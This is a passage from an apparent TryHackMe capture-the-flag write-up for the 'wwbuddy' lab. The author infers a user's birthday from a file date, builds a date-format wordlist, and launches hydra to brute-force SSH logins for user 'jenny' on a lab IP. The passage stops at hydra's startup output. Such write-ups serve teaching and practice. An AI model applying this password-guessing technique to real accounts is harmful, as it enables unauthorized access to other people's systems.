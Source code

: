 ### Information of file importante.txt
```console
roberto@wwbuddy:~$ stat importante.txt 
  File: importante.txt
  Size: 246             Blocks: 8          IO Block: 4096   regular file
Device: ca02h/51714d    Inode: 402577      Links: 1
Access: (0664/-rw-rw-r--)  Uid: ( 1001/ roberto)   Gid: ( 1001/ roberto)
Access: 2020-11-08 12:07:42.220000000 +0000
Modify: 2020-07-27 21:25:48.544379536 +0000
Change: 2020-07-27 21:25:48.544379536 +0000
 Birth: -
 ```
 The file was created on 2020-07-27. So lets create a wordlist to bruteforce jenny's password.
 Earlier the birthday on the webapp was in the format **mm/dd/yyyy**, so created the wordlist accordingly.

## Content of wordlist
```console
local@local:~/Documents/tryhackme/wwbuddy$ cat wordlist 
08/01/1994
08/02/1994
08/03/1994
08/04/1994
08/05/1994
08/06/1994
08/07/1994
08/08/1994
08/09/1994
08/10/1994
07/28/1994
07/29/1994
07/30/1994
07/31/1994
07/32/1994
08/11/1994
08/01/1995
08/02/1995
08/03/1995
08/04/1995
08/05/1995
08/06/1995
08/07/1995
08/08/1995
08/09/1995
08/10/1995
08/11/1995
07/28/1995
07/29/1995
07/30/1995
07/31/1995
07/32/1995
```
### Using hydra to bruteforce SSH password
```console
local@local:~/Documents/tryhackme/wwbuddy$ hydra -l jenny -P wordlist ssh://10.10.39.232 -I
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-08 17:58:28
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 32 login tries (l:1/p:32), ~2 tries per task
```